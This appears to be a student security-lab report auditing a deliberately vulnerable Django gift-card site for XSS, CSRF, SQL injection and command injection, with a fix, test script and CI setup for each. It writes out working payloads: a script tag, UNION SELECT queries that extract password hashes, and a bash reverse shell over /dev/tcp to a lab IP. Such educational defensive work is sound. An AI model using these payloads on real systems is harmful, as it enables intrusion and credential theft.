


# Part 1: Auditing and Test Cases

## Task 1: Cross-Site Scripting (XSS)

### Task 1a
In this task we need to first login to the website and find vulnerabilities that can be exposed by injecting malicious code. After logging in, in the home page we can see ``Services`` button and under that we can find the ``Gift a Card`` option. In that page we can find a text accepting input box for ``Recipient`` which can be used for injecting the malicious code.
When we type in the name that is not a valid a valid recepient, it takes us to an ``ERROR`` page that gives an error message contaning the name that we entered as shown in the screenshot.


We can use this to generate an alert using javascript by giving ``<script>alert(document.cookie)</script>`` in the text box. This creates an alert that does not contain any information. We further examine the cookies using inspect element feature of the browser. We can see that the session cookie is an ``HttpOnly`` cookie which means that it cannot be accessed using javascript. This is shown in the screenshots below.



Now we need to find where the vulnerable code is located. In order to do that we can examine the Http request that is created when the recepient field is filled and we submit the page using the inspect element of the browser. The Http POST request ``http://127.0.0.1/gift/0`` can be seen in the screenshot below.


Now in the ``urls.py`` file, we find the differen types of HTTP requests and the functions that handle them. We can see that the HTTP request ``gifts/`` is handles in the ``gift_card_view`` method of ``views.py`` file. We can find the exact line of code that causes the vulnerability in the screenshot. In the highlighted line 147, we can see that the recepient name sent in the post request stored in the ``target_user`` is accessed without being sanitized which is causing the vulnerability.


### Task 1b
In this task we need to create a script to test the vulnerability that we discovered. We use ``requests`` library and create a session variable. In order to send POST request to ``gift/``, we need to be logged in. So we create the 1st request containing the url, username and password. We get the seesionid cookie which is secure which cannot be sent on http requests. So we make the cookie non-secure. Then we create the 2nd POST request to the send the bad string as the recepient name to instigate the vulnerable code. Then by checking the request response, we can see that it contains the bad string. Hence we proved that the ``XSS is vulnerable``. The code is shown in the screenshot below.


### Task 1c
In this task we need to modify the source code in order to mitigate the above vulnerability. This can be done by sanitizing the recepient name passed from the POST request. There is an inbuilt function that is available called ``escape`` that escapes the special characters like ``<`` and ``>`` which could be used for attacking html pages using javascript. In the ``views.py`` file, we first import the library using the line ``from django.utils import html``. Then we modify the line where the target_user is used without being sanitised to include the escape function. This escape function replaces ``<`` and ``>`` by ``&lt;`` and ``&gt;`` which solves the vulnerability. This can be seen in the screenshots below. Now even if we enter a javascript in the recepient field, we donot get the alert, instead the value is displayed in the error page.


### Task 1d
In this task we need to verify if the vulnerability is resolved using the script that we wrote. The script we wrote already include both the if else statements required for this purpose. We run the python script after the source code changes were made. Now we see that the request response does not contain the special chanracters such as the input we gave. So it prints ``XSS is not vulnerable``. This is shown in the screenshot below.


## Task 2: Cross-Site Request Forgery (CSRF)

### Task 2a
In this task we need to do a CSRF, i.e., we need to access the vulnerable gift website from an external webpage. In order to do this we need to login to the website as the ``target (hitha)`` in a browser and as the ``threat`` in another incognito browser. This is shown in the screenshot below. The left side browser is the target and the right side incognito browser is the threat.


Next we need to create an html page that should be launched from the target's web browser that accesses the gift website so that the attacker can send a gift card to himself/herself. This html page is hidden and contains a form that has preset input values for money and recepient username which is submitted as soon as this external html page is accessed. The script is in the file ``hr2340-csrf-attack-site.html`` and is shown below.


After this, we launch a server to host this page using ``python3 -m http.server 8080``. Then we can open the html page on the target's browser by typing ``http://localhost:8080/jd4633-csrf.html`` in the browser. This is shown in the screenshot. In this screenshot we can also see that the attacker(threat) on the right side browser does not have any gift cards available to be used.


When we open the html page, it is not displayed on the browser as it contains a hidden form which os submitted as soon as it is opened. Now if we refresh the attacker browser we can see that a gift card has been sent. This proves the CSRF.


### Task 2b
In this task we need to write a python script to check for the CSRF vulnerability. First through request1 we do a login to create a session like we did in Task 1b. Then through request2 we do a GET request to the gift page and check for the ``csrfmiddlewaretoken`` in its response. If it is not found then we can say that the website is ``Vulnerable to CSRF!``. The script is in the file ``hr2340-csrf.py`` and is shown with the output below.


### Task 2c
In this task we need to modify the source code to mitigate the CSRF vulnerability which requires two changes to be done. The first change is to send the CSRF token in the HTTP request from the gift page. This can be done by adding ```` in the ``gift.html`` code inside the form tag. The second change to be done is to check for the CSRF token sent from the front end. This can be done by adding ``'django.middleware.csrf.CsrfViewMiddleware'`` in the ``settings.py`` file inside the ``MIDDLEWARE`` settings. These changes are shown in the screenshot below.


We will check this by performing the task 2a after the source code changes. Now the external http age cannot access the gift page of the website since the csrf token will not be sent. So it gives a ``FORBIDDEN`` error. After refreshing the gift site in the attacker browser we can see that there is no new gift card sent. This can be seen in the screenshots below.


### Task 2d
In this task we need to prove that the website is not vulnerable to CSRF using the python script we wrote for task 2b. After running the script again, we can see that the script checks for csrf token which is present in the request2 response, thus it prints ``Not Vulnerable to CSRF!``. This is shown in the screenshot below.


This is not a foolproof method of checking for the vulnerability as the script just checks for the presence of the csrf token in the response from the HTML page which is true even if the website does not check for the presence of the CSRF token from the Middleware settings.


## Task 3: Structured Query Language Injection (SQLi)

### Task 3a
In this task we need to perform an SQL injection attack on the website by using a vulnerable page. We are required to find the password hash for the target and administrator to prove this vulnerability.
We have a page called ```Buy a Card``` where we can buy a giftcard which in turn downloads a json file. We can then use this gift card in the ```Use a Card``` page by uploading this json file. In this process we look for a vulnerability in the json file that we are uploading and we can see that there is an SQL injection vulnerability in the ```signature``` field of the json file.
Now to find the password hash of the ```target(hitha)``` we use the SQL query ```UNION SELECT password FROM LegacySite_user where username = 'hitha';--``` in the signature field. We then upload the json file to the Use a Card page which redirects us to an error page that contains the hash os the password. The ```hr2340-sqli.gftcrd``` file and the error page are shown in the screenshot below where the password hash is highlighted.


To find the administrator password hash we use the SQL query ```UNION SELECT password FROM LegacySite_user where username = 'administrator';--``` and follow the same steps to produce the error page. The output is shown in the screenshot below along with the ```.gftcrd``` file.


### Task 3b
In this task we need to write a python script to check for the SQLi vulnerability in the website. This is in the ```hr2340-sqli.py``` file. The script performs a login using the username, password and csrf token to the login.html page. Then we send another post request to useCard page using the json file we got and modified in task 3a. We then check for the administrator password hash in the request response. If it is present we can say that the website is ```Vulnerable to SQLi!```. The script and the output are shown below.


### Task 3c
In this task we need to fix the vulnerability by making changes to the source code. The code that takes the signature and inputs it to the SQL query is present in the ```views.py``` file. We can mitigate the vulnerability by passing the signature as a parameter that takes only strings as the signature input and not SQL queries. This change is done in the line 199 in the code shown below.


Now we try to attack the website like we did in task 3a. We upload the ```.gtfcrd``` in the Use a Card page and we can see that we are not redirected to an error page, instead we can get a message ```Card Used!``` on the screen. The screenshot below shows this.


### Task 3d
In this task we need to prove that the vulnerability is not present using the python script we wrote in task 3b. After we make the source code changes, we run the ```hr2340-sqli.py``` script and we see that the website is ```Not Vulnerable to SQLi!```. This is shown in the screenshot below.


## Task 4: Command Injection (CMDi)

### Task 4a
In this task we need to find a Command line injection vulnerability. When we look at the file ```extras.py``` we can find the line ```ret_val = system(f"./{CARD_PARSER} 2 {card_path_name} > tmp_file")``` that looks like a good vulnerability that could be exploited. Then using the code in ```views.py``` we can see that after we submit the json file in Use a Card page, it calls a function from extras.py to parse the card details. In the extras.py file we can see that if there is an error in the json file then it continues the code execution to reach the vulnerable line in the code. So we buy a card and change the json file by removing ```"{"``` and we name the file ```hr2340-cmdi.gftcrd```. The code snippets are shown below.


Now we use this card by uploading the hr2340-cmdi.gftcrd file and in the ```name field``` we give an attack string such as ```Name; ls -la ;Name```. This is shown in the screenshot below.


After submitting this we can see an error page for json decode error and in the terminal we can see the execution of the attack string command. This is shown below.


Now we can perform a higher order attack of opening a reverse shell and executing shell commands by creating a listener in the terminal. First we create the listener using the command ```nc -nv -l 7070```. Then we use the gift card by uploading the json file and naming it with an attack string as ```Name; bash -c "/bin/bash -i > /dev/tcp/10.0.2.15/7070 0<&1 2>&1" ;Name```. Then after submitting we can see the json decode error and in the terminal a reverse shell is opened and we can execute shell commands like ```hostname; date; id;```. This is shown below.


### Task 4b
In this task we need to write a python script that will check for the CMDi vulnerability. For this we write a python script ```hr2340-cmdi.py``` where we perform a login and then using socket() we set a listener. Then we do a post request to the Use a Card page where we pass the card, and the card name as the attack string ```Name; /bin/bash -c \"echo hr2340 > /dev/tcp/127.0.0.1/6060\" ;Name```. Then we check for the response, if it contains the string ```hr2340```, then it is proved that the website is ```Vulnerable to CMDi!```



### Task 4c
In this task we need to mitigate the vulnerability by making source code changes. In the ```extras.py``` file we can use the subprocess library instead of the system call. This will consider the user input as arguments and hence it will not execute a shell script through the command. As there is no system call to the shell, we will not be able to use it to send the content to the tmp_file, instead we need to write the output of the command execution to the tmp_file. In the source code, lines 61 to 68 have been added to address this issue. The code snippet is shown below.


### Task 4d
In this task we need to show that the vulnerability is mitigated with the help of the python script we wrote in task 4b. In order to do that we need to make a few changes of setting the timeout and checking for it. If there is a timeout it should show ```Not Vulnerable to CMDi!```. This is shown in the screenshot below.


# Part 2: Automated Regression & Database Encryption

## Task 5 (10pts): Continuous Integration and Development
In this task we have created ```hr2340-regression.yml``` file which will be used by github actions. Whenever a push is made on the repository, this yml file will trigger github actions to run all the testcases that we have created for each of the previous tasks. The yml file is shown below.


We can see in the below output that all our tests have passed.


## Task 6 (18pts): Encrypting the Database

### Task 6a
To encrypt the database, we install django-encrypted-model-fields via ```python3 -m pip install django-encrypted-model-fields```. We generate a secret key using the file ```hr2340-secretkey.py```. Then we use the key in the ```settings.py``` file.


We then modify the ```models.py``` file to encrypt the data of the card model to be stored in the database.


After this to check if this is working, we buy a gift card. We can see that the data has been encrypted in the database. The screenshot below shows it.


One of the potential risks of performing the above mentioned encryption is that if the encryption key is leaked, then it is very easy to steal the data which violates CIA principles.

### Task 6b
For the rotation we first dump the database to a json file. Then we generate a new key and add it in settings.py file like we did in the prvious task.
Now we load the database json again. We can now see that all our data from the old db has been encrypted using the new key. The screenshot below shows it.

